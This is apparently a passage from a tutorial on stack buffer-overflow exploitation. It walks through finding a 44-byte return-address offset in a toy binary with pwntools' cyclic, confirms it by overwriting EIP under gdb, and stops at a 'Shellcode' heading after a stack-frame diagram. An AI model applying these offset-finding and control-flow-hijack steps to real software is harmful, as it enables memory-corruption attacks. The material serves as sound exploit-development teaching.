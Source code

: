 Exists a python toolbox: [pwntools](https://github.com/Gallopsled/pwntools) that provides some command line tools, between them
there is the ``cyclic`` tool that can help me

```
$ cyclic 50
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama
$ ./simplest_excalation
What's your name? aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama
hello, aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama
```

now you can see that the faulting address is different

```
0x6161616c in ?? ()
```

``cyclic`` has a lookup functionality that can perform the offset calculation
for us:

```
$ cyclic -l 0x6161616c
44
```

At this point we can double check that we have the offset we are looking for

```
$ python -c "print 'A'*44 + 'BBBB' " | ./simplest_excalation
 ...
$ gdb -p `pidof simplest_excalation`
...
Program received signal SIGSEGV, Segmentation fault.
...
0x42424242 in ?? ()
```

Remember to always double check that the offset you have found allows to put the desired
value where you want.

For a simple program like that I could have found the offset simply looking at the instructions:
it's obvious that ``name`` is located at ``%ebp - 0x28``, since the ``pc`` register is one word
above ``ebp`` this gives an offset of 44 from the start of the buffer.

### Shellcode

Now I have a good estimate of the memory organization around the ``name`` buffer

```
<<< lower addresses                                                                                       upper addresses >>>

[local variables after buffer][            name            ][local variables before buffer][addr old ebp][addr eip][...
|                             |<-------------------------- 44 bytes ----------------------------------->||
|                              `-start of buffer                                                        ||
'----------------------------------------------- greeting()'s frame ------------------------------------''- main()'s frame
```
